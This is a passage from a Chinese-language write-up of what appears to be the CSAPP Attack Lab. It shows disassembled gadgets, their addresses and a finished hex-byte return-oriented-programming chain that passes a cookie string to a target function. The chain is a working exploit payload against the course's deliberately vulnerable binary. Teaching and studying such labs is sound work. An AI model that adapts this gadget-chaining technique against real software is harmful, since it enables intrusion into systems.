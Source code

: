 

movl %ecx, %esi   0x401a13

将栈顶+偏移量得到字符串首地址给到rax

```xml
00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  4019da: c3                    retq 
```

0x4019d6



然后把rax传到rdi

```xml
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
```

movq %rax, %rdi  0x4019a2

综上所述得到字符串

```undefined
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61 00
```